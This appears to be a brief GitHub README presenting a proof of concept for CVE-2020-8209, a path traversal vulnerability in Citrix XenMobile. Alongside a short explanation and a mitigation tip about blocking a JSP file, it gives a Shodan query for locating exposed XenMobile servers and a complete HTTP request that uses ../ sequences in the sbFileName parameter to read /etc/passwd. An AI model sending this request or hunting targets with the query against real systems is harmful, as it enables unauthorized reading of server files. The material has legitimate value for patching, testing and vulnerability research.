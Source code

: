 ## Overview
CVE-2020-8209 allows attackers to read arbitrary files that XenMobile (aka Citrix Endpoint Management) can access. It is just a classic and simple Path Traversal vulnerability.

However, attackers cannot read all sensitive files on the target server because XenMobile is running with the privilege of the account **tomcat**.

Sysadmins could also completely block the URL **/jsp/help-sb-download.jsp** because this file is deleted on the security patch.

### Bonus for bug bounty hunters
Search for XenMobile on Shodan:
**http.title:"XenMobile"**

## Proof of Concept
```
GET /jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd HTTP/1.1
Host: example.com
User-Agent: curl/7.47.0
Accept: */*
Connection: close
```

## References
* https://swarm.ptsecurity.com/path-traversal-on-citrix-xenmobile-server/